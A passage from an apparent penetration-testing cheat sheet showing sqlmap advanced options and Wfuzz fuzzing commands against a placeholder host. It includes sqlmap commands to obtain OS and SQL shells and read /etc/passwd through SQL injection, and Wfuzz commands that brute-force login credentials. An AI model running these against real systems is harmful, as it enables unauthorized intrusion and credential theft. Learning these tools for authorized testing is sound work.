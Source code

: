 #### Advanced Options
```bash
# Use a specific technique (B: Boolean-based, E: Error-based, U: Union-based, S: Stacked queries, T: Time-based)
sqlmap -u "http://target.com/page.php?id=1" --technique=BEU

# Specify database type
sqlmap -u "http://target.com/page.php?id=1" --dbms=mysql

# Get OS shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# Get SQL shell
sqlmap -u "http://target.com/page.php?id=1" --sql-shell

# Get file system access
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"
```

## Web Fuzzing Tools

### Wfuzz

Wfuzz is a web application fuzzer that can be used to find resources, parameters, and other hidden content by using brute force methods.

#### Basic Usage
```bash
# Fuzz URL parameters
wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt http://target.com/FUZZ

# Fuzz parameter values
wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt http://target.com/index.php?id=FUZZ

# Multiple parameter fuzzing
wfuzz -c -z file,users.txt -z file,passwords.txt http://target.com/login.php?user=FUZZ&pass=FUZ2Z

# POST request fuzzing
wfuzz -c -z file,users.txt -z file,passwords.txt -d "username=FUZZ&password=FUZ2Z" http://target.com/login.php
```

#### Filtering Results
```bash
# Filter by response code
wfuzz -c -z file,wordlist.txt --hc 404 http://target.com/FUZZ

# Filter by word count
wfuzz -c -z file,wordlist.txt --hw 42 http://target.com/FUZZ

# Filter by character count
wfuzz -c -z file,wordlist.txt --hh 2571 http://target.com/FUZZ
```
